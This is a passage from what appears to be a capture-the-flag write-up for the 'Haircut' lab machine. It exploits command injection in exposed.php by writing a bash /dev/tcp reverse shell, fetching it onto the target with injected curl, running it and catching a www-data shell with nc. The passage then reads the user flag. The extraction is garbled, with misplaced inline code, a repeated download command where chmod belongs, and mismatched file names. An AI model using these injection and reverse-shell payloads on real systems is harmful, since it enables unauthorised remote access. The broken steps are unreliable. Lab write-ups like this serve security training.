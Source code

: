 
But at I get pings:`tcpdump`

    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:04:58.132878 IP 10.10.10.24 > 10.10.14.15: ICMP echo request, id 2117, seq 1, length 64
    21:04:58.132924 IP 10.10.14.15 > 10.10.10.24: ICMP echo reply, id 2117, seq 1, length 64
    

Replacing with also worked. All of the reverse shells I typically use contain other filtered characters. But I can use the command injection to upload a shell:`$([command])```` `[command]` ```

    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    

Now I’ll upload it to Haircut with:

    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'
    

That will reach out to my webserver, download to . Now I’ll use the same technique to to make the file executable:`shell.sh``/tmp/0xdf``chmod`

    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'
    

And one last time to run it:

    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(/tmp/rev)' --data-urlencode 'submit=go'
    

At :`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:43906.
    bash: cannot set terminal process group (1225): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@haircut:~/html$
    

### user.txt

No matter how I get a shell, I can now grab :`user.txt`

    www-data@haircut:/home/maria/Desktop$ cat user.txt
    0b0da2af************************
    

## Shell as root

### Enumeration
